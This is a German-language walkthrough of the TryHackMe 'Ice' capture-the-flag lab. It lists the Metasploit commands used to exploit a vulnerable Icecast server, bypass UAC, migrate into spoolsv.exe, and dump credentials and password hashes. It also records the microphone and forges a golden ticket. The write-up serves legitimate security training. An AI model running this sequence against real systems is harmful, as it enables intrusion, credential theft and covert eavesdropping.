



# TRYHACKME ROOM ICE

Launching scan against target machine.

Icecast wird auf Port 8000 ausgeführt

NMAP identifiziert DARK-PC als Hostnamen für den Computer

Für Antworten der Nummern #1 und #2 des Task 3 des Rooms ICE braucht man folgende Liste [https://www.cvedetails.com/vulnerability-list/vendor\_id-693/product\_id-1194/Icecast-Icecast.html](https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/Icecast-Icecast.html)

> Search Icecast

Returnt alle target exploits für den Zielcommand (ICECAST)

Nachdem wir das module ice zur Verwedung gewählt haben (use icecast / use 0) geben wir uns mit show options die Optionen des Moduls ausgeben. Hierbei ist RHOSTS das einzig leere Feld, welches noch nicht gesetzt ist. (RHOST ist die deployte VM (10.10.79.188))

> getuid

Der Icecast Prozess wurde von dem User Dark ausgeführt.

> Sysinfo

Returnt Systeminfos

> Background

Um den jetztig laufenden Prozess in den Background geben

Dann wird mit

> use exploit/windows/local/bypassuac\_eventvwr

der exploit gesetzt.

Nachdem wir uns die options angesehen haben wird die Session mit

> set session 1

die Session gesetzt.

> Run
> Options

Uns fällt auf, dass der LHOST noch falsch ist (sollte ip von Openvpn Verbindung sein)

> Ip addr
> Set LHOST **IP**
> Run
> Sessions 2

Die Session id wird beim run-Befehl ausgegeben

Mit dem Befehl &quot;getprivs&quot; können wir nun überprüfen, ob wir die Berechtigungen erweitert haben.

Mit

> Ps

werden die Prozesse aufgelistet.

Mit

> migrage -N spoolsv.exe

migriert man zu diesem Prozess

> creds\_all

listet alle Anmeldedaten auf

Mit welchem ​​Befehl können wir alle auf dem System gespeicherten Passwort-Hashes sichern?

Mit

> hashdump
 
Wie wäre es, wenn wir von einem am System angeschlossenen Mikrofon aufnehmen wollten?

> Record\_mic

> Golden\_ticket\_create

Erstellt ein golden Ticket, mit dem wir uns überall problemlos authentifizieren können.